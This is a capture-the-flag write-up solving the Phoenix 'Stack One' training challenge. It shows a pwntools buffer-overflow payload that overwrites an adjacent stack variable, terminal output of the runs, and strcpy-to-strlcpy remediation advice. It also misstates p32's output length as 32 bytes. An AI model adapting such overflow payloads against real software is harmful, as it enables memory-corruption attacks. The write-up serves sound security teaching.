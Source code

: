 ```yaml
---
title: "Phoenix Challenges - Stack One"
date: 2022-08-06T20:00:00-00:00
categories:
  - CTF
  - Phoenix
tags:
  - Phoenix
  - CTF
---
```


<div style="text-align:center">
  <img src="/assets/images/post_images/Phoenix/phoenix.png">
</div>

# The Challenge
The challenge’s description and source code are located [here](https://exploit.education/phoenix/stack-one/). It and all other Phoenix binaries are located in the __/opt/phoenix/amd64__ directory. A [previous blog post](https://secnate.github.io/ctf/phoenix/phoenix-setup/) describes how to set up the Virtual Machine for these challenges, if that hasn't been done already.
{: style="text-align: justify;"} 

# The File
We use the following command to get a sense of the _Stack One_ file’s properties:
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-one$ file /opt/phoenix/amd64/stack-one
/opt/phoenix/amd64/stack-one: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

Some fun facts:

1. It has the `setuid` property enabled, which indicates that the program is run with the privileges of the owner. If a file’s owner is root (and it isn’t in this case), it can be used to escalate privileges
2. It has symbols, as indicated by the `not stripped` attribute. It means that those debugging and analyzing the binary can see the original variables and function names
3. It uses shared libraries that are dynamically linked as part of its execution. This can help to identify standard functions used
4. It is an `ELF 64-bit LSB executable, x86-64`. ELF is the file format, the word size is 64 bits, LSB means that it is little-endian (least significant bytes used first), and the binary uses the x86-64 instruction set
{: style="text-align: justify;"} 

# Objective
Looking at _Stack One’s_ C code, we see the _changeme_ variable stored in the _locals_ struct initialized to 0. The goal is to tamper with its value and make its value equal to `0x496c5962` to print the desired statement.
{: style="text-align: justify;"}

# Related Concept
It is necessary to understand how Stack memory works. I wrote a lengthy explanation in the [writeup for the Phoenix Stack Zero challenge](https://secnate.github.io/ctf/phoenix/phoenix-stack-zero/), which one can read if interested.
{: style="text-align: justify;"}

# The Bug
All of _Stack One’s_ data is stored on the stack, with the _locals_ struct’s buffer and _changeme_ variables being adjacent neighbors. Excess data rammed into the _buffer_ will spill over into the _changeme_ variable and affect its value. This spillover is caused by _strcpy()_ function, which writes the _Stack-One_ binary’s argument into the _locals.buffer_ without any bounds-checking.
{: style="text-align: justify;"}

# The Exploit
The _locals.buffer_, into which the input is written, has space for 64 characters. Since the _locals.changeme_ variable was 0 originally, the exploit needs to tamper with its memory location to make it have the desired `0x496c5962` value. This is done by feeding in an input string of 64 characters to completely occupy the buffer’s memory and appending additional data to overwrite the _changeme_ variable with the `0x496c5962` value.
{: style="text-align: justify;"}

I needed to completely fill up the _locals.buffer_ 64 characters and ensure that the appended value could completely control the _changeme_ variable. Fortunately, the _Stack One_ binary had printouts, which attested whether the _locals.changeme_ variable was equal to `0x496c5962` and printed its value if it wasn’t. Convenient
{: style="text-align: justify;"}
```
if (locals.changeme == 0x496c5962) { 
  puts("Well done, you have successfully set changeme to the correct value"); 
} 
else { 
  printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n", locals.changeme); 
}
```

I started by crafting a basic exploit. Its payload in the [_exploit.py_](https://github.com/secnate/Exploit-Education-CTFs/blob/main/Phoenix/stack-one/exploit.py) file’s line 14 was
{: style="text-align: justify;"}
```
payload = cyclic(64) + p32(0xdeadbeef)
```

What does it mean? Pwntool’s _cyclic(64)_ command generates the following cyclic padding string
{: style="text-align: justify;"}
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```

While the characters themselves do not have an intrinsic meaning, its main benefit is that each possible sequence of 4 bytes corresponds to a unique string index. This expedites the process of exploit development through ease of debugging and adjusting padding string offsets.
{: style="text-align: justify;"}

The p32 function is pwntools’ packer utility. It takes the provided integer input (0xdeadbeef in this case) and converts it to a bytestring representation of length 32 bytes and the appropriate endianness. Because the _Stack One_ file is little-endian, it represents **0xdeadbeef** as a **b'\xef\xbe\xad\xde'** bytestring.
{: style="text-align: justify;"}

The following bytestring payload was thus generated:
```
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\xef\xbe\xad\xde'
```

The next step was to test whether the payload's launch _completely_ overwrote the _changeme_ variable with 0xdeadbeef.
{: style="text-align: justify;"}

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-one$ ./exploit_with_debugger.py
Launching The Stack One Exploit!
[!] Could not find executable 'stack-one' in $PATH, using '/opt/phoenix/amd64/stack-one' instead
[+] Starting local process '/opt/phoenix/amd64/stack-one': pid 4703
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-one' stopped with exit code 0 (pid 4703)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0xdeadbeef, we want 0x496c5962
[*] Got EOF while reading in interactive
$  
```

It did! The final step was to replace the payload’s `0xdeadbeef` value with `0x496c5962` – and lo and behold!
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-one$ ./exploit.py
Launching The Stack One Exploit!
[!] Could not find executable 'stack-one' in $PATH, using '/opt/phoenix/amd64/stack-one' instead
[+] Starting local process '/opt/phoenix/amd64/stack-one': pid 4717
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-one' stopped with exit code 0 (pid 4717)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[*] Got EOF while reading in interactive
$  
```

The exploit code can be found in my [Github repository](https://github.com/secnate/Exploit-Education-CTFs) for Phoenix challenge solutions.
{: style="text-align: justify;"}

# Remediation
To prevent such a memory corruption bug, I would urge developers to not write in C and to transition to memory-secure languages such as Python or Rust.
{: style="text-align: justify;"}

If there is no choice but to use C, I would caution against using the [strcpy](https://www.geeksforgeeks.org/why-strcpy-and-strncpy-are-not-safe-to-use/) function to extract command-line arguments or inputs. As just seen, it continues reading the input until the terminating NULL (‘\0’) is seen, regardless of the destination buffer’s size.
{: style="text-align: justify;"}

The [strlcpy](https://man.openbsd.org/strlcpy.3) function should be used instead. It writes the input into the destination buffer up to the specified size and terminates the buffer with the NULL (‘\0’) character. Convenient, because many programmers would just forget to do so manually.
{: style="text-align: justify;"}

The source code’s `strcpy(locals.buffer, argv[1]);` line would thus be
{: style="text-align: justify;"}
`strlcpy(locals.buffer, argv[1], 64);`
{: style="text-align: center;"}

---
That’s all for this round. Stay tuned for the next challenge!
{: style="text-align: justify;"}